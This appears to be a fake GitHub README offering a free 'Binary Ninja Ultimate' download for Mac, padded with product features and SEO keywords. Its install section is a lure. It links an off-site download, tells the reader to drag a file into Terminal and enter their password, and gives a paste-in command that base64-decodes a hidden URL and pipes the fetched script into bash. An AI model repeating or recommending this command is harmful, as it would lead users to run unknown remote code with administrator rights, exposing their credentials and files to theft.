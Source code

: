 # Binary Ninja Ultimate Download

![Binary Ninja Icon](https://binary.ninja/icons/android-chrome-512x512.png)  

---

## ⬇️ Download Binary Ninja Ultimate for Mac

[![⬇️ Download Now](https://img.shields.io/badge/Binary%20%20Ninja%20%20Ultimate-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/binaryninja)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0801-1.gif](https://i.postimg.cc/13YxsdYG/0801-1.gif)](https://postimg.cc/DSspcxh0)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-2.gif](https://i.postimg.cc/4x1CqdpS/0723-2.gif)](https://postimg.cc/Bjtw1JYT)

---

## 🧭 What is Binary Ninja?

**Binary Ninja** is an advanced reverse engineering platform that combines a clean and modern interface with powerful binary analysis tools. Built to serve both professionals and learners in the fields of cybersecurity, malware analysis, software debugging, and vulnerability research, Binary Ninja has quickly become a favorite in the reverse engineering community.

Whether you're analyzing compiled binaries, reverse-engineering firmware, or exploring code obfuscation techniques, Binary Ninja provides the essential tools to dissect and understand code behavior. Its intuitive **Graph View** and **Linear Disassembly View** make navigating control flow and instruction patterns easier than ever.

One of Binary Ninja’s standout features is its **scripting and automation support**. With Python and C++ APIs, users can develop custom plugins or automate complex analysis workflows. It also includes support for a growing number of architectures (x86, ARM, MIPS, etc.), plus features like type reconstruction, intermediate language representation (IL), symbolic execution, and more.

On **macOS**, Binary Ninja runs natively, offering seamless performance on both **Intel** and **Apple Silicon (M1/M2/M3)** systems. The Mac version supports the same plugin ecosystem and feature set available on Windows and Linux.

---

## 🧰 Key Features

- 📊 **Graph and Linear Disassembly Views**  
- ⚙️ Advanced **Static Analysis** engine  
- 🧠 Intermediate Language (IL) support for easier code understanding  
- 🐍 Full **Python and C++ API** for automation and plugin development  
- 🔐 Support for **multiple architectures**: x86, ARM, MIPS, PowerPC, and more  
- 🔎 **Hex editing**, **type recovery**, and **decompiler view**  
- 🧩 Robust **plugin ecosystem** and community tools  
- 🚀 Optimized for performance on **macOS**, including M1/M2  
- ☁️ Offline use with optional updates & license manager  
- 🛠️ Constantly updated with new analysis capabilities  

---

![Binary Ninja Screenshot](https://binary.ninja/images/screenshots/graph-view-with-stack.png)

---

## 💻 System Requirements

- **macOS**: 10.15 Catalina or later  
- **Architecture**: Intel and Apple Silicon (M1, M2, M3)  
- **RAM**: 4GB minimum (8GB+ recommended)  
- **Disk Space**: ~300MB  

---

## 🔑 Keywords

`binary ninja`, `binary ninja free`, `binary ninja download`, `binary ninja free download`,  
`binary ninja mac`, `binary ninja mac free`, `binary ninja mac free download`, `binary ninja mac download`

---
